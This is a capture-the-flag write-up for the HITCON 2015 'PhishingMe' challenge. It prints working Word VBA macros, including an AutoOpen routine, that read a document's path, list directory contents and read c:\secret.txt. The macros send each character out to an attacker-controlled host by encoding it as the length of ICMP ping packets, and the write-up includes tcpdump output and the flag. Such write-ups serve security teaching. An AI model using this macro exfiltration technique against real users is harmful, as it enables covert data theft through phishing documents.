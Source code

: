 Infomation: 
Title: PhishingMe
Description
Sent me a .doc, I will open it if your subject is "HITCON 2015"! Find the flag under my file system. p.s. I've enabled Macro for you. ^_________________^ phishing.me.hitcon.2015@gmail.com.
Hint
This challenge is all about macro. Requirement will be

- MS Windows
- Ms Word with Macro
- Email title with HITCON 2015
- Email Address to phishing.me.hitcon.2015@gmail.com

 Once all this condition is fulfilled. We received an confirmation email from HITCON
I've read your doc. Interesting
First guess was, ping to home 
Shell ("ping -n 1 my.ip.add.ress")
TCPDUMP from home with ICMP on. Bingo, we go packets We went and wrote few more connection script like email, web and DNS. Looks like we got no luck at all. So we concluded.

- NO Outgoing TCP Allowed
- NO Outgoing UDP Allowed (ppp solved it with DNS)

 Concluded only ICMP able to to go out from the box. So, we did another test. 
Shell ("ping -n 1 -l 2 my.ip.add.ress")
And we received 
11:29:43.643405 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2249, length 10
This is clear that we can somehow use the length to pass some data. So, first thing is. We want to know where are we.

strString = (ActiveDocument.Path)
For i = 1 To Len(strString)
    strHex = Hex(Asc(Mid(strString, i, 1)))
    strDec = CLng("&h" & strHex)
    strDec = strDec - 8
    MsgBox (strDec)
    'Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
Next

Next From the ping with length, we convert back the Dec value back to ASCII, we got PATH Secondly, we go a "dir" 
Set objFSO = CreateObject("Scripting.FileSystemObject")
objStartFolder = (ActiveDocument.Path)


Set objFolder = objFSO.GetFolder(objStartFolder)
'MsgBox objFolder.Path
Set colFiles = objFolder.Files
For Each objFile In colFiles

    'MsgBox objFile.Name

    strString = objFile.Name

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        For iCount = 1 To 1000
        Next iCount
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next

    Shell ("ping -n 1 -l 34 my.ip.add.ress")
Next

Nothing seems to me interesting. So we change and code a little bit and do a dir on "C:\", we found secret.txt !!! Another peace of code to show what is in secret.txt 
Sub AutoOpen()


Dim MyString As String

'Open the text file
'(replace "MyTextFile.txt" with the name of your file)
Open "c:\secret.txt" For Input As #1

'loop through the file until the end of file marker
'is reached
Do While Not EOF(1)
    'read line of text, place it in the MyString variable
    Line Input #1, MyString
     'MsgBox (MyString)
    'you can then use whatever is in MyString for
    'your formatting purposes
Loop

'close the text file
Close #1

    strString = MyString
    'strString = "ABCD"

    For i = 1 To Len(strString)
        strHex = Hex(Asc(Mid(strString, i, 1)))
        'MsgBox strHex
        strDec = CLng("&h" & strHex)
        strDec = strDec - 8
        
        For iCount = 1 To 10000000
        Next iCount
        'MsgBox (strHex & " " & strDec)
        Shell ("ping -n 1 -l " & strDec & " my.ip.add.ress")
    Next


End Sub
From TCPDUMP we received 
11:29:41.058538 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2215, length 104 
11:29:41.058617 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2215, length 104 11:29:41.128465 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2216, length 105 
11:29:41.128542 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2216, length 105 
11:29:41.202369 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2217, length 116 
11:29:41.202441 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2217, length 116
--- More ICMP Traffic ---
11:29:44.321431 IP 54.92.10.249 > my.ip.add.ress: ICMP echo request, id 1, seq 2258, length 125
11:29:44.321527 IP my.ip.add.ress > 54.92.10.249: ICMP echo reply, id 1, seq 2258, length 125
By taking all the length, we got the string as 
hitcon{m4cr0_ma1ware_1s_m4k1ng_a_c0meb4ck!!}
Done !!! 

Special Thanks to k9
